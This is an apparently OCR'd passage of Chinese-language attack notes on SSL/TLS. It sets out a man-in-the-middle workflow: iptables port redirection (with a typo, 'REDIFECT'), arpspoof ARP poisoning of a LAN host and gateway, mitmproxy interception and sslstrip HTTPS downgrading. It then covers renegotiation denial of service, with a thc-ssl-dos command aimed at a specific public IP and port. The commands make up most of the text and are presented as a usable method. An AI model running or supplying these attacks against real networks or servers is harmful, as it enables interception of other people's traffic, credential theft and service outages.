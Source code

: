 - 设置路由表转发规则

```bash
# bug: 只能在8080端口监听，所以需要修改规则
iptables -t nat -F

iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIFECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIFECT --to-port 8080
```

- 也是使用`arpspoof`进行arp欺骗

```bash
arpspoof -i eth0 -t 192.168.1.118 -r 192.168.1.1
```

- 最后，Mitmproxy侦听

```
mitmproxy -T --host -w mitmproxy.log

# mitmproxy会自动生成一个证书
```



###### 3.`SSLstrip`工具

与前两种工具不同，此工具将客户端到中间人之间的流量变为明文(不用通过安装证书)
```bash
# 这种更实用便捷，但是......
sslstrip -l 8080
```



----------



## SSL/TLS拒绝服务攻击

>和流量式的拒绝服务攻击不同(打击的是网络带宽)，而我们这里打击的是服务器的资源



#### Note:

- SSL协商加密，服务器资源加载速度会变慢（大量握手请求会导致拒绝服务），但是优化得当就可以没问题
- 利用SSL secure Renegotiation特性，在单一TCP连接中生成数千个SSL重连接请求，造成服务器资源过载
- 与流量式的拒绝服务攻击不同，thc-ssl-dos可利用dsl线路打垮30G带宽的服务器
- 服务器平均可以处理300次/s SSL握手请求



#### 利用

##### `thc-ssl-dos`工具
```bash
#使用
thc-ssl-dos 199.223.209.205 2083 -accept
```
